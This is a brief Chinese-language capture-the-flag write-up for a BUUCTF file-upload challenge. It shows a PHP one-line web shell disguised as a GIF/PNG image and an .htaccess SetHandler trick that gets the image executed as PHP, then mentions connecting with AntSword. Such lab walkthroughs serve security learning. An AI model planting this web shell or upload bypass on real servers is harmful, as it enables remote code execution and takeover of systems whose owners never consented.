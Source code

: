 # [MRCTF2020]你传你🐎呢

>题目：BUUCTF Web

__0x00 审题__

要传入一个文件，应该跟一句话木马相关，根据经验直接上传后缀名为jpg/png的文件

__0x01 解题__

建立文件a.png

```
GIF89a? 
<script language="php">eval($_POST['cmd']);</script>
```

直接上传，成功后用BurpSuit抓包，然后优先考虑直接改后缀名.png为.php，发现惨遭过滤，类似的phtml,php5也都被过滤了

* 新的方法 .htaccess

> 是什么：在一个特定的文档目录中放置一个包含一个或多个指令的文件， 以作用于此目录及其所有子目录。作为用户，所能使用的命令受到限制。管理员可以通过Apache的AllowOverride指令来设置。
> 如何应用：[ ](https://httpd.apache.org/docs/2.4/howto/htaccess.html)
> 工作原理： .htaccess文件(或者"分布式配置文件")提供了针对每个目录改变配置的方法，即在一个特定的目录中放置一个包含指令的文件，其中的指令作用于此目录及其所有子目录。

建立一个文本存放：
```
<FilesMatch "a.png">
SetHandler application/x-httpd-php
</FilesMatch>
```
我通过.png的格式传入，通过Bp抓包后修改后缀名为.htaccess

发现可以成功

> 如果没有过滤.htaccess可以考虑先上传他再更改,Content-Type中更改类型为image/png

* 注：

蚁剑连接的路径：去除www/html/之后的完整路径。




